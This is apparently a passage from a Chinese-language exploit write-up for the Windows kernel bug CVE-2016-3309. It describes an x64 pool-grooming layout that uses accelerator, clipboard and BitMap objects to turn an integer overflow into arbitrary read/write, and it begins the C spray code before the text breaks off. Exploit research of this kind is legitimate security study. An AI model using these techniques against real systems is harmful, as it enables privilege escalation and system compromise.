 三  
  
  
**漏洞利用**  
##   
## 1.内存布局  
  
该漏洞由于整型溢出可以越界写入相邻的内存，如果这些写入操作能修改BitMap对象的关键成员就可以实现任意地址写入。为了达到这个目标，需要特定的内存布局，在x64位操作系统上的池内存有以下的几个特点：  
  
每一块申请的内存都会加上0x10字节大小的_POOL_HEADER；  
  
申请的内存大小如果超过0x808字节就会在新的内存页中申请该内存；  
  
连续的请求会从页的末尾开始分配，页尾的内存在释放的时候不会合并位于相邻内存页的下一内存块。  
  
  
本文的内存布局和参考链接中的不同，其中每一页的0x1000字节由0xBC0大小的剪切板对象，0x3E0大小的BitMap对象和0x60大小的加速表对象或空闲内存构成。这样，当触发漏洞的时候，申请的0x50(加上_POOL_HEADER为0x60)的内存就会占用其中位于页尾的空闲内存。  
  
  
这样，即使越界写入操作会修改相邻内存块的_POOL_HEADER，但此时的内存块位于下一内存页，所以在释放申请的0x50大小的内存块的时候，不会因为合并操作产生BSOD。此时，如果能利用越界写入操作修改相邻内存页中的BitMap对象中的关键成员，就可以实现任意地址读写。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8G3WVayxh1xe4Vwicic63emUEXgz8cMWPujxdYJYZ63PzGPHB803kQxGfES0oMqX6aKwJe18Uqk0IOA/640?wx_fmt=png "")  
  
想要创建上图的内存布局，同时让触发漏洞时候申请的内存刚好在中间的1000个内存页中0x60大的空闲内存中，需要通过以下几个步骤实现：  
  
  
① 通过加速表对象创建0x60大小的内存来消耗内存池中的空闲内存；  
  
  
② 创建5000个0xFA0大小的BitMap对象，这样就会有5000个内存页中包含0xFA0大小的BitMap对象和0x60大小的空闲内存；  
  
  
③ 通过加速表对象创建5000个0x60字节大小的加速表占用第2步中0x60大小的空闲内存；  
  
  
④ 释放掉第2步中创建的BitMap对象，这样那5000个内存页中起始的0xFA0内存就会变成空闲内存；  
  
  
⑤ 创建5000个0xBC0大小的剪切板对象，这些对象会占用第4步释放BitMap对象而产生的内存页中起始的0xFA0的空闲内存中的0xBC0，这些0xFA0的空闲内存就会剩余0xFA0 - 0xBC0 = 0x3E0的空闲内存；  
  
  
⑥ 创建5000个0x3E0的BitMap对象，这些BitMap对象就会占用第5步中剩余的0x3E0的空闲内存；  
  
  
⑦ 释放掉第3步创建的中间一部分加速表对象，这样就会在第5步和第6步中创建的剪切板对象和BitMap对象后产生0x60大小的空闲内存，这样触发漏洞时候申请的内存就会刚好占用这些0x60大小的空闲内存。  
  
  
经过以上7个步骤就会形成上图的内存布局，相应代码如下，此时要注意在x64系统中，BitMap对象的对象头占0x260字节，加速表对象的对象头占0x20字节，剪切板对象的对象头占0x14字节。  
```
BOOL Init_CVE_2016_3309()
{
    BOOL bRet = TRUE;
    CONST DWORD dwBitNum = 5000, dwAccelNum = 5000, dwJunkNum = 2000;
    DWORD i = 0;
    HBITMAP hBitMap[dwBitNum + 5] = { 0 };
    HACCEL hAccel[dwAccelNum + 5] = { 0 };

    for (i = 0; i < dwJunkNum; i++)
    {
        // 0x8 * 0x6 + 0x20 + 0x10 = 0x30 + 0x20 + 0x10 = 0x60
        ACCEL accel[0x6] = { 0 };
        hAccel[i] = CreateAcceleratorTableA(accel, 0x6);
        if (!hAccel[i])
        {
            ShowError("CreateAcceleratorTableA", GetLastError());
            bRet = FALSE;
            goto exit;
        }
    }

    for (i = 0; i < dwBitNum; i++)
```